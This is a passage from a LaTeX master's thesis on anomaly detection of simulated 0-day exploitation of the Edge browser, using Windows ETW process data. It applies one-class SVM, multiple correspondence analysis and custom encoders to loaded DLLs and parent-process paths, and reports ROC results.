the "processSummary" and "processModules" files was correlated by the order in which it was 
stored. Similarly as before this approach was choosen because of the reuse of process id's.
Three of the stored processes never in testing had any corresponding modules - 
"Registry", "MemCompression" and the process marked with -1 ProcessId. Obtained data was
additionally validated with the with the used input information to minimise the risk of 
introducing error to the dataset.

Further preprocessing was performed on a per feature basis and is described in corresponding
experiment chapter sections.

% The final product of the data processing is a dataset containing information about all the 
% executed processes. The base data comes from the "processesSummary" file and includes Name, ID,
% Parent\_ID, Bitness, CPUMsec, AveProcsUsed, DurationMSec, StartMSec, ExitCode, CommandLine.
% This information is augmented with following columns:
% \begin{itemize}
% 	\item Path - String containing sequence of parent processes separated by "/".
% 	\item PathId - String containing sequence of parent process id's separated by "/".
% 	\item EndMSec - The end time of the process stored in milliseconds.
% 	\item DLLs - All columns not listed above contain OneHot encoded information about the 
% 	dynamically linked libraries. When a column contains value 1 the process has 
% 	loaded the dll specified in the column name.
% \end{itemize}

% Each row represents a single unique process.

\chapter{Experiments}


This chapter describes the experiments performed to achieve the purpose of the thesis
and the underlying methodology. This includes the utilised tools, information about used datasets,
description of the taken actions and presentation as well as analysis of the obtained results. 
% This chapter presents the experiments. It is a crucial part of the thesis and has to dominate in the thesis. 
% The experiments and their analysis should be done in the way commonly accepted in the scientific community (eg. 
% benchmark datasets, cross validation of elaborated results, reproducibility and replicability of tests etc).


\section{Methodology}

Experiments performed to achieve the goals of the thesis were executed with the use of 
the Python 3.8.3rc1 programing language. It was executed via the Jupyter framework which is
a is "an open-source web application that allows you to create and share documents that 
contain live code, equations, visualizations and narrative text. Uses include: data cleaning 
and transformation, numerical simulation, statistical modeling, data visualization, machine 
learning, and much more" \cite{bib:jupyter}. Each experiment was performed in a separate
Jupyter notebook and obtained results were analysed in the same framework. 

Gathered data was also analysed in the Windows Performance Analyzer (WPA) which "is a tool that 
creates graphs and data tables of Event Tracing for Windows (ETW) events that are recorded 
by Windows Performance Recorder (WPR) or Xperf. WPA can open any event trace log (ETL) file 
for analysis" \cite{bib:wpa}. This software was used to perform initial analysis of the 0-day 
exploitation of the chromium based browsers and to formulate areas of focus in the gathered data. 
The tool can be easily installed on Microsoft Windows operating systems from the Microsoft Store.

The anomaly detection performed in the experiments was done with the 10-fold cross validation 
unless stated otherwise.
% \begin{itemize}
% \item description of methodology of experiments
% \item description of experimental framework (description of user interface of research applications 
%  move to an appendix)
% \end{itemize}

\section{Data sets}

Main dataset utilised in the thesis is called "combined\_ETW\_data.csv".
Data is stored in a CSV format which is a text based file for tabular information.  
Each entry in the file is separated by the new line character and it's features are divided 
by commas. This simple, non-proprietary format is very accessible and supported by most 
known data handling programs and frameworks. 

The dataset was acquired in 4 user sessions. In two of those a simulated 0-day attack was 
performed. The attacked processes and the ones spawned in result have been marked as anomalies. 

After preprocessing of the data following features are stored in the output file:
\begin{itemize}
	\item Session - String identificator of the session in which the corresponding process data 
	was gathered.
	\item ID -  The integer number used by the kernel to uniquely identify an active process.
	\item Name -  The name of the process, usually identical to the binary file name. Expressed by a 
	string data type.
	\item Path - String containing sequence of parent processes names separated by "/".
	\item PathId - String containing sequence of parent processes id's separated by "/".
	\item CommandLine - String containing the shell command used to start the process.
	\item ParentID - The identifying integer number of the parent process. 
	\item CPUMsec - Amount of milliseconds in which the process has occupied the processor. Integer value.
	\item AveProcsUsed -  Average processor utilisation calculated by dividing the amount of time 
	when a process has occupied the processor by the total process lifespan. Expressed in floating 
	point numbers. This value is derivative combination of the features "CPUMsec" and "DurationMSec"
	but it is still stored for verification purposes.
	\item Bitness - Integer value indicating whether the process executable is created in 
	32 or 64 bit architecture.
	\item DurationMSec - The duration of the process life stored in milliseconds. Expressed in 
	floating point numbers.
	\item StartMSec -  The start time of the process stored in milliseconds. Expressed in floating 
	point numbers.
	\item ExitCode - Integer value returned after the process execution. Commonly known as exit code.
	\item Y - This binary column indicates whether the corresponding entry is a anomaly. Value "1" corresponds
	inliers and "-1" to outliers. Processes marked as "-1" were spawned as a result of 0-day explotation.
	\item The remaining columns contain OneHot encoded information about the dynamically linked 
	libraries. When a column contains value 1 the process has loaded the DLL specified in the 
	column name. Otherwise the column contains 0. Full list of the captured modules can be 
	found in the appendix % TODO dodać listę dll
\end{itemize}

The dataset utilised in the thesis can be found in a public repository under the url 
\url{https://github.com/maxDoesHacking/MasterThesis/blob/master/data/combined_ETW_data.csv}


\section{Results}

In all of the experiments performed the focus was placed on 'msedge' binary and it's child processes.
The dataset was filtered with the use of 'ProcessPath' feature. Any string value containing the 'msedge'
substring indicated that the coresponding process is either Microsoft Edge browser or was spawned by it. 

\subsection{Dynamic link libraries}
To obtain baseline results to which any developed frameworks can be compared a one class SVM anomaly 
detection was performed on the raw one hot encoded DLL data. The results of this process can be found
in the figure \ref{fig:DLLBaselineROC} and show that singling out of the outliers is possible with this type 
of information. The resulting ROC shows however that this method is not stable as presented by the sudden spikes
and drops of performance even though the 'nu' values is gradualy increased. 
The raw results can be found in the table \ref{id:tab:rawDlls} located in the appendix. 

\begin{figure}
	\centering
	
\includegraphics{images/DLLBaselineROCKF}
	\caption{The receiver operating characteristic of the baseline anomaly detection.}
	\label{fig:DLLBaselineROC}
 \end{figure}
	
In the initial analysis of the data we can look at the counts of DLL's loaded by specific 
processes. The distribution of those values can be found in the histogram \ref{fig:dllCounts}. 
From this depiction we can clearly see that some of the outlier samples lie distant from other 
samples with high count. This pattern may be detectable. 


\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/DLLcounts}
	\caption{Histogram of the counts of DLL's loaded by processes.}
	\label{fig:dllCounts}
 \end{figure}

To test the hypothesis the DLL counts were normalised to fit the range from 0 to 1 and a anomaly 
detection was performed. The ROC of the process is visible in the figure \ref{fig:DLLcountsROC} and
raw outputs are presented in the table \ref{id:tab:countOCSVM}. Both of those show that 
negative samples were at least partialy correctly labled for some classifier configurations. A 100\%
detection rate requires however a significant false negative ratio.

\begin{figure}
	\centering
	\includegraphics{images/DLLCountsROCKF}
	\caption{The receiver operating characteristic anomaly detection performed on DLL counts.}
	\label{fig:DLLcountsROC}
\end{figure}

There are over 1400 different DLL's gathered in the data set created. A single process loads 
even upto 287 modules. This extremely high dimensionality of the information might be too complex 
to analyse efficiently, even for the algorithms that can handle well datasets where features 
outnumber samples. To better understand the gathered information a multiple component 
analysis (MCA) was performed. This extension of correspondance analysis allows us to analyse the 
pattern of relationships of multiple categorical dependent variables \cite{bib:mca}. It was performed 
with a python mca 1.0.3 library \cite{bib:pymca}. The result of this process is a set of points in a 
low-dimensional map corresponding either to columns or rows of the input data frame. Their 
distance in the obtained space can be used to classify how strongly they are correlated with 
each other. 

The principal inertias (eigenvalues) obtained as the result of the algorithm can help us better 
understand how well the resulting dimentions express the relations between the input samples. 
The values calculated were normalised and can be found in the figure \ref{fig:mcaInertias} and 
the table \ref{id:tab:MCAEigenvalues} located in the appendix. Those results suggest that the 
usefulness of the dimentions in the data analysis significantly drops after the first one. The two
following values are however very similar which indicates that it might be good to adjust the 
dimention cutoff to utilise only the first one or all three.


\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/MCAEigenvalues}
	\caption{Multiple correspondance analysis inertias.}
	\label{fig:mcaInertias}
 \end{figure}

To validate that the MCA can extract valiable information from the available data, it's results for all
the processes were compared to the actual purpose for each 'msedge' relared process. The location of the
binaries in the obtained multidimentional space can be found in the figures \ref{fig:mca01} which 
depicts dimentions 0 and 1 as well as figure \ref{fig:mca12} for dimentions 1 and 2. The raw numerical 
values utilised to generate those visualizations are located in the table \ref{id:tab:MCAValues} placed 
in the appendix of this document. 


\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/MCA01}
	\caption{Multiple correspondance analysis distribution in the first and second dimention.}
	\label{fig:mca01}
 \end{figure}

 \begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/MCA12}
	\caption{Multiple correspondance analysis distribution in the second and third dimention.}
	\label{fig:mca12}
 \end{figure}

From the distributions we can clearly see that MCA processing has managed to group closely some of the
identical processes. It is also very apprent that the outlier 'powershell' is significantly distant from all remaining samples. 
This pattern can be spoted in both figure \ref{fig:mca01} and \ref{fig:mca12}. Those results are very 
promising and indicate that at least partial detection of anomalies should be possible with the obtained MCA results.

Additionally to this strategy a simple anomaly detector based on the detection of any previously not loaded
DLL can be utilised. This method could be a solid intrusion detection system on its own and it's performance
would not be dependent on the proper adjustment of parameters as in the more sofisticated approaches. The 
DLL's present only in the outliers can be found in table \ref{id:tab:outlierDLLs}.

\begin{table}
	\centering
	\caption{DLL's present only in outliers}
	\label{id:tab:outlierDLLs}
	\begin{tabular}{l}
		\toprule
										system.core.ni \\
												psapi \\
										system.dynamic \\
								system.management.ni \\
										system.xml.ni \\
			microsoft.powershell.commands.management.ni \\
						microsoft.powershell.psreadline \\
						system.configuration.install.ni \\
							system.directoryservices.ni \\
									microsoft.csharp.ni \\
					microsoft.powershell.security.ni \\
												clrjit \\
											system.ni \\
													atl \\
									microsoft.csharp \\
								system.configuration.ni \\
													wer \\
												pnrpnsp \\
											mscorlib.ni \\
									system.transactions \\
			microsoft.powershell.commands.utility.ni \\
												mscoree \\
												dbgcore \\
									system.numerics.ni \\
												winrnr \\
						system.management.automation.ni \\
												napinsp \\
								system.transactions.ni \\
											system.data \\
													clr \\
											faultrep \\
										system.numerics \\
												authz \\
											mpclient \\
					microsoft.powershell.consolehost.ni \\
											mscoreei \\
								vcruntime140\_clr0400 \\
												wshbth \\
										system.data.ni \\
									ucrtbase\_clr0400 \\
				microsoft.management.infrastructure.ni \\
		\bottomrule
	\end{tabular}
\end{table}

The proof of possible classification with the MCA data is ilustrated in the figure \ref{fig:mcaroc} which shows the 
results One Class Support Vector Machine anomaly detection performed directly on the first two dimentions 
of the data from multiple component analysis. The raw data used to obtain the ROC can be found in the table
\ref{id:tab:OCSVMonMCA} located in the appendix. The obtained results have however some erroneous qualities that
present as sudden spikes and drops of the false negative ratio. Those characteristics are not present in the 
anomaly detection performed without K-fold cross validation which can also be found in the graph \ref{fig:mcaroc}. 
With proper configuration the algorythm has managed to detect 
two anomalies with zero false negative results. This approach however is very difficoult to apply in the 
production enviroment due to the full dataset required prior to classification. This data may be however 
utilised to develop and train a custom encoder capable of positioning the new input data in the previously 
analysed DLL space.  


 \begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/MCAROCbothKFandNot.PNG}
	\caption{ROC curve of OCSVM directly on MCA data with and without cross validation}
	\label{fig:mcaroc}
 \end{figure}


The idea behind the custom encoder is to group DLL's by their common occurance and therefore
conclude common functionality of the programs that share them. This task can be performed
with the use of unsupervised classification algorithm like K-means with $\mathit{N}$ classes 
on the results of the MCA. Example of such classification
performed for four classes is showed in the figure \ref{fig:kmeanmca}. The resulting 
$\mathit{O_{i}}$ sets of unique DLL's, each set of the size $\mathit{S_{i}}$  where 
$\mathit{i\in\{1, 2, 3,..., N\}}$  can be utilised to create a 
vector $\mathit{Y_{k}}$ of $\mathit{k\in\{1, 2, 3, ..., N + 1\}}$ features for any new 
data sample $\mathit{X}$ which is a set of DLL's of a size $\mathit{M}$ with the algorithm
described in equations \ref{enc_eqn} and \ref{enc_new_eqn}. 

\begin{equation} \label{enc_eqn}
	Y_{l} = 
	\sum_{j=1}^{M}
	\begin{cases}
		1/S_{j}       & \quad \text{if } x_{j} \in O_{l}\\
		0  & \quad \text{if } x_{j} \notin O_{l}
	  \end{cases} \quad \text{where }l \in \{1, 2, 3, ..., N\}
\end{equation}

\begin{equation} \label{enc_new_eqn}
	Y_{N+1} = 
	\sum_{j=1}^{M}
	\begin{cases}
		p      & \quad \text{if } x_{j} \notin O\\
		0  & \quad \text{if } x_{j} \in O
	  \end{cases} \quad \text{where }p \text{ is the unseen DLL parameter }
\end{equation}

The encoder can be adjusted with parameters like the number of classes in the unsupervised 
classifier as well as the number of dimentions utilised from the multiple component analysis results. 
This approach combines the detection of previously unknown DLL's with the attempt to dynamically
 assign specific DLL's to groups by their location in the MCA space. 


 \begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/KmeanMCA}
	\caption{Unsupervised classification of MCA results}
	\label{fig:kmeanmca}
 \end{figure}

All 'msedge' samples were tested on the on the encoder trained only with the inlier samples as well
as all the possible ones.
This solution was tested for multiple sets of possible parameters. The number of utilised MCA 
dimentions was equal 2 as in the detection performed directly on the MCA data. This was done to 
allow for just comparison of the results. The anomaly detection was performed
both with and without the last dimention corresponding to the occurance of previously unknown DLL's. Those
values for the encoder trained on all the samples are always equal to zero untill new data samples
are gathered.
The results of this experiment are presented in the figure \ref{fig:EncROCwLab} for 
the encoder trained only on the inlier data and \ref{fig:EncROCwoLab} for all samples. The raw data
can be found in the tables \ref{id:tab:SVMencWLab} and \ref{id:tab:SVMencWoLab} located in the 
appendix. The weight p for the unique DLL's was set to 0.1.

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/EncROCwLabKF.PNG}
	\caption{Unsupervised classification of encoded inlier MCA results}
	\label{fig:EncROCwLab}
 \end{figure}

 \begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/EncROCwoLabKF.PNG}
	\caption{Unsupervised classification of encoded all MCA results}
	\label{fig:EncROCwoLab}
 \end{figure}

Differently trained encoders display various characteristics. The best performance is shown by
the one with single cluster in the k-means classification and taught only on the inlier samples.
The resulting encoded data is in reality a DLL count normalised to the range from 0 to 1 and a
additional new DLL detection. When trained on the all samples the best characteristics are 
obtained for the two classes in the k-means algorithm. This configuration allows the algorithm
to detect samples which normaly are not present in the training set. This however does not 
fully makeup for the lack of new DLL detection. The data sample is not sufficient to perform
tests on how the encoder trained on the data containing outliers performs on previously unseen
outlier samples.

The ROC curves for all tested encoding approaches are presented in the graph \ref{fig:GraphComp}.
Those results show that the classification performed on the encoded data can be more effective
than the one performed directly on the MCA data. It can also outperform it in the number of 
correctly labled negative samples with a smaler false negative increase. The anomaly 
detection was most accurate in the negative sample detection when the sample encoding was trained only on the inliers
for the number of clusters equal to 1. The additive nature of the encoder means that in those cases the 
detection is actually performed on the DLL counts. This configuration also most effective 
when the primary focus is on the reduction of the false negative amount. The drop in performance when 
trained on data containing outliers is not dramatic so this approach can potencialy handle some 
dirty data.

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/DLLCompGraphKF.PNG}
	\caption{Comparison of the anomaly detection results for all tested preprocessing approaches.}
	\label{fig:GraphComp}
 \end{figure}

The performance of the developed methods was tested with 10 - fold cross validation. In the case of
the anomaly detection performed on the raw MCA data the ROC was presenting a anomalous characteristics 
and the attempts of identifing their sources did not bring any results.

\subsection{Process paths}



We can see in our data that some child process paths contain the "explorer" parent process and some start with the first 
edge browser. This may be a result of a specific case in the data gathering process or the result of wrong 
processing. In the future some logs may contain even more complex prefixes to the actually investigated
process. For those reasons the first step in the process path analysis should be their normalisation which
would result in them starting with the process of intrest in the first place. In our dataset this can 
be achieved by cutting off any prefix values before the first "msedge".  

All paths corresponding to the researched process consist of elements presented in the table 
\ref{id:tab:pathElems}. The full list of normalised paths can be found in the appendix \ref{id:tab:fullPaths}.

\begin{table}
\centering
\caption{Elements of researched paths.}
\label{id:tab:pathElems}
\begin{tabular}{ll}
	\toprule
	0 &        conhost \\
	1 &       HOSTNAME \\
	2 &       WerFault \\
	3 &       ipconfig \\
	4 &  cpu-z\_1.96-en \\
	5 &         msedge \\
	6 &         whoami \\
	7 &     powershell \\
	8 &        notepad \\
	\bottomrule
\end{tabular}
\end{table}		
	
\begin{table}
	\centering
	\caption{Unique researched paths.}
	\label{id:tab:uniqPaths}
	\begin{tabular}{ll}
		\toprule
		0  &                                     /msedge/msedge \\
		1  &                                            /msedge \\
		2  &                          /msedge/msedge/powershell \\
		3  &                  /msedge/msedge/powershell/conhost \\
		4  &                                    /msedge/notepad \\
		5  &                 /msedge/msedge/powershell/ipconfig \\
		6  &                            /msedge/msedge/WerFault \\
		7  &                 /msedge/msedge/powershell/HOSTNAME \\
		8  &                   /msedge/msedge/powershell/whoami \\
		9  &  /msedge/cpu-z\_1.96-en/cpu-z\_1.96-en/cpu-z\_1.96... \\
		10 &        /msedge/cpu-z\_1.96-en/cpu-z\_1.96-en/notepad \\
		11 &                /msedge/cpu-z\_1.96-en/cpu-z\_1.96-en \\
		12 &                              /msedge/cpu-z\_1.96-en \\
		13 &  /msedge/cpu-z\_1.96-en/cpu-z\_1.96-en/cpu-z\_1.96-en \\
		14 &                              /msedge/msedge/msedge \\
		\bottomrule
	\end{tabular}
\end{table}

This data cannot be fed directly to the classification algorithm because of it's 
qualitative nature. In result no baseline can be obtained. The basic feature
of the path it's size - the number of processes contained in it. The distribution
of the path lengths is presented in the graph \ref{fig:pathLenHist}. Those values
extracted can be scaled and used to detect anomalies.

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/pathLenHist}
	\caption{Histogram of the path lengths.}
	\label{fig:pathLenHist}
 \end{figure}

After normalisation the count values were used in the one class SVM and the performance
of this approach is depicted in the table \ref{id:tab:pathLenOcSVM} and the graph \ref{fig:pathLenROC}. 
Obtained values show that outliers can be detected with a managable false positive ratio. This 
behavior is visible for wide range of 'nu' values. 

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/PathLenROC}
	\caption{ROC of the anomaly detection on path lengths.}
	\label{fig:pathLenROC}
 \end{figure}



In order to attempt identification of more complex patterns in the path data the feature was encoded with
the use of a Similarity Encoder which assignes values to the input based on its similarity 
to the known char strings obtained in the training process. The outputs are calculated with 
one the available algorithms like "N-gram", "Levenshtein-ratio" and other. This encoder is
capable of handling previously unknown values which is a big factor when processing 
qualitative features like paths. In a cases where new values occur in the data preprocessing,
classic encoders like "OneHot" fail. 

In the initial approach the paths were normalised to start with the same initial 'msedge' 
process and split on the separators to obtain a matrix of their components. Each entry in the
matrix corresponds to a single path and the columns represent segments in the path. The matrix
width is equal to the maximum path length in the data where path length is equal to the number
of components from which it is build. Paths shorter than matrix width were paded in the splitting
process with empty strings. The result of this process is presented in the table \ref{id:tab:splitPaths} 
located in the appendix. 

The encoder trained with the inlier split data assigned known entries to each column and this 
information was used to encode all samples which subsequentialy were analysed with the One Class
SVM. The results presented in the table \ref{id:tab:ocsvmOnDirtyCatBad} show that this approach is 
very ineffective. 

The results of the anomaly detection performed with the 'nu' value equal to 0.075 were inspected 
to establish the root causes of the low performance. The first noticable problem with the data
is the handling of the empty string values. The similarities for each input column are 
calculated to the corresponding set of know values which result in multiple encoded values per
column. Because of that the returned output is flattened to the vector form in which entries
correspond to both the input dimention and it's specific categories. 

An example of this can be shown with the folowing categories based on the ones computed 
for the the used data:
\begin{itemize}
	\item Column 1 contains unique entries: '', 'cpu-z\_1.96-en', 'msedge', 'notepad'.
	\item Column 2 contains unique entries: '', 'cpu-z\_1.96-en', 'msedge'.
\end{itemize}

Those result in the output vector with following entries:
\begin{itemize}
	\item Similarity of the first column entry to the empty string.
	\item Similarity of the first column entry to the 'cpu-z\_1.96-en'.
	\item Similarity of the first column entry to the 'msedge'.
	\item Similarity of the first column entry to the 'notepad'.
	\item Similarity of the second column entry to the ''.
	\item Similarity of the second column entry to the 'cpu-z\_1.96-en'.
	\item Similarity of the second column entry to the 'msedge'.
\end{itemize}

Manual analysis showd that in our encoded data the the similaritiy to empty strings ('') is 
always equal to zero, even if the input is identical. This is most probably due to the limitations 
in the utilised string comparison algorithms. Because of that our calculated categories:
\begin{lstlisting}
[
	['msedge'],
	['', 'cpu-z_1.96-en', 'msedge', 'notepad'],
 	['', 'cpu-z_1.96-en', 'msedge'],
	['', 'cpu-z_1.96-en', 'notepad'],
 	['', 'cpu-z_1.96-en']
]
\end{lstlisting}

are in reality:

\begin{lstlisting}
[
	['msedge'],
	['cpu-z_1.96-en', 'msedge', 'notepad'],
	['cpu-z_1.96-en', 'msedge'],
	['cpu-z_1.96-en', 'notepad'],
	['cpu-z_1.96-en']
]
\end{lstlisting}

Additionally it is possible that because the encoder was designed to be more robust in the face 
data variance, in other words smooth out anomalies, it is not fit for the purposes of the thesis. 
Even though this process allows for the handling of new values it might significantly disrupt anomaly detection.

An example of this is the process '/msedge/msedge/powershell' which is a clear outlier
but in the encoded form it is equal [1., 0., 1., 0., 0., 0., 0., 0., 0.]. This is equal
to the 'center of gravity' of the encoded data because the by far most numerous process
'/msedge/msedge' obtains the same value. This is due to the third element of the outlier process  
path having no similarity of the known previous values.

On the other side of the spectrum is the inlier '/msedge/notepad' value which encoded is equal to
[1., 1., 0., 0., 0., 0., 0., 0., 0.] which is distant from the 'center of gravity' by 1 (maximum 
value) in the two of the nine dimentions. 

The encoder in this configuration is skewered in its performance to detect low count values that
are present in the training process and overlook new values that are very different to them. 

This problem might however be solved by fixing encoding of the empty string values. The
initial analysis showed also that the paths should be normalised to start with the first 
subprocess of the msedge because it is always identical and does not introduce any information
to the classification process. The values coresponfing to the empty strings were manualy adjusted
to be equal 1 in the cases of exact match. Corected data was once again used to in anomaly detection
and the results can be found in the table \ref{id:tab:ocsvmOnDirtyCatGood} and the chart \ref{fig:ocsvmOnDirtyCatGood}. 
A look at the performance for the low 'nu' values suggests that this approach may be successful but 
the results on the entre spectrum show that it is most probably equal to the random classification.
% Those values show  improvement in the performance which is especially visible in the entry number 1 for the 'nu' 
% value equal 0.05.

\begin{figure}
	\centering
	
\includegraphics[scale=0.9]{images/OcsvmOnDirtyCatGood}
	\caption{Anomaly detection on improved encoded paths.}
	\label{fig:ocsvmOnDirtyCatGood}
 \end{figure}

The similarity encoder was also tested with the training on normalised paths without splitting 
them into components as well as only the value '/msedge' and an empty stirng. The idea behind this approach
